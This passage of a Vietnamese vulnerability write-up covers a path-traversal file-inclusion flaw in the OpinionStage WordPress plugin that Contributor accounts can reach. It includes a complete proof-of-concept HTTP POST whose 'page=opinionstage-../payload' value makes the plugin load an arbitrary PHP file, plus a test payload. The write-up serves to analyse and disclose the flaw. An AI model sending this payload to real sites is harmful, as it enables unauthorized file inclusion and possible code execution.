 Để truy cập vào **submenu** của **admin** người dùng cần phải login vào WordPress với đặc quyền tối thiểu là **Contributor** => đặc quyền yêu cầu của CVE này là **Contributor**

2 slug được khai báo cho 2 submenu:

```php
const string OPINIONSTAGE_MENU_SLUG = "opinionstage-settings"
const string OPINIONSTAGE_GETTING_STARTED_SLUG = "opinionstage-getting-started"
```

## Exploit

### Proof of Concept (PoC)

1. Login bằng tài khoản Contributor
2. Gửi POST request:

```http
POST /wp-admin/admin.php?page=opinionstage-getting-started HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1760451626%7CeIWnBlZSv8mq15W1MfZbUd1WqiPvrNbuhzcGwDNgRtf%7C95a2ae30f463a8c1d010a70313f3f305e2c6e99b18056b7827132b809329c400; wp-settings-time-3=1760279584; intercom-id-y45xtsgw=f5cf9200-6f02-4b61-bb0a-94ef864e710e; intercom-session-y45xtsgw=; intercom-device-id-y45xtsgw=40def9f9-8e76-4d64-9bbc-28c12b70544f; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1760451626%7CeIWnBlZSv8mq15W1MfZbUd1WqiPvrNbuhzcGwDNgRtf%7C2f86a0974e1c1d7b5ef8322a588e50ef5879561d1fc2f84b7c6eddf5c98ffcce
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
X-PwnFox-Color: green
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

page=opinionstage-../payload
```

**Debugging**:

{{< figure src="debug1.png" caption="Debug - Giá trị của $view_file_name" >}}

{{< figure src="debug2.png" caption="Debug - Giá trị của $path được require" >}}

File `payload.php` được tạo để thử nghiệm

```php {filename="admin/views/payload.php v19.11.0" hl_lines=[2]}
<?php
echo "ABC";
```
